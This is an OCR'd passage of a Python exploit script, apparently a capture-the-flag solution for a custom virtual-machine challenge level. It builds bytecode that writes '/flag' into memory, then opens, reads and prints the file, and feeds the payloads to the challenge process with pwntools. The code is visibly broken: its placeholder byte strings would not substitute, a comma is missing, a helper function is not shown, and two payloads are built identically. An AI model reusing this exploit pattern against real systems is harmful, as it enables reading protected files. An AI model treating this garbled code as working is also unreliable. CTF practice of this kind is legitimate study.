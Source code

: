 ```python
    b'\{sys}\{read}\{a}', # read(a, b  ,c) ---> return a
]

# Operation: stm=128, Registers:  a=64, b=2, c=4, sys: read=8, write=16, open=4
payload_1 = b''.join(format_data_list(a=0x2,b=0x40,c=0x1,read=0x8,write=0x1,open_=0x10,stm=0x40,imm=0x2, sys=0x10))

data_list = [
    b'\xff'             # 填充FF位置
    b'\xff\xff\xff',    # 填充第1条指令
    b'\xff\xff\xff',    # 填充第2条指令
    b'\xff\xff\xff',    # 填充第3条指令
    b'\xff\xff\xff',    # 填充第4条指令

    b'\{imm}\{a}\x00', # imm a, 0x00
    b'\{imm}\{b}\x2f', # imm b, 0x2f
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x01', # imm a, 0x01
    b'\{imm}\{b}\x66', # imm b, 0x66
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x02', # imm a, 0x02
    b'\{imm}\{b}\x6c', # imm b, 0x6c
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x03', # imm a, 0x03
    b'\{imm}\{b}\x61', # imm b, 0x61
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x04', # imm a, 0x04
    b'\{imm}\{b}\x67', # imm b, 0x67
    b'\{stm}\{a}\{b}', # stm *a = b

    b'\{imm}\{a}\x00', # imm a, 0x00
    b'\{imm}\{b}\x00', # imm b, 0x00
    b'\{sys}\{open}\{a}', # open ---> return a

    b'\{imm}\{b}\x10', # imm b, 0x10
    b'\{imm}\{c}\x40', # imm c, 0x40
    b'\{sys}\{read}\{a}', # read(a, b, c) ---> return a

    b'\{imm}\{a}\x01', # imm a, 0x01
    b'\{sys}\{write}\{a}', # write(a, b, c) ---> return a

    b'\{imm}\{a}\x00', # imm a, 0x00
    b'\{sys}\x08\{a}', # exit(a)

]

payload_2 = b''.join(format_data_list(a=0x2,b=0x40,c=0x1,read=0x8,write=0x1,open_=0x10,stm=0x40,imm=0x2, sys=0x10))

p = process("/challenge/toddlerone_level9.1")
p.send(payload_1)
p.send(payload_2)
p.interactive()
```

